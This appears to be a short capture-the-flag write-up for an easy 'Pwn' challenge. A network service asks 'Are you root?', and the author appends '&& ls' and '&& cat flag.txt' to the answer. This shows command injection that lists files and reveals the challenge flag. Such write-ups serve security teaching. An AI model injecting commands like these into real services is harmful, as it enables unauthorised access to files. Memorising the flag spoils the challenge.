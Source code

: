 Category: Pwn
Difficulty: Easy
Author: @ryurina (loonatic)
___________
![58825cdd814710e9b957c13df2adce3e.png](../_resources/58825cdd814710e9b957c13df2adce3e.png)

It's a very easy challenge
It's say:
```text
#~ nc 159.223.209.120 7777
Are you root?
yes
lol ur not root!
```

It may have an unsecure command bash

```text
#~ nc 159.223.209.120 7777
Are you root?
yes && ls
yes
entrypoint.sh
flag.txt
pwn.sh
ucspi-tcp-0.88
ucspi-tcp-0.88.errno.patch
ucspi-tcp-0.88.tar.gz
lol ur not root!
```

Let's **"cat"** the file "flag.txt"

```text
#~ nc 159.223.209.120 7777                                                                       ─╯
Are you root?
yes && cat flag.txt
yes
EZ-CTF{UNSECUR3_B4SH}
lol ur not root!

```

#### Flag: EZ-CTF{UNSECUR3_B4SH}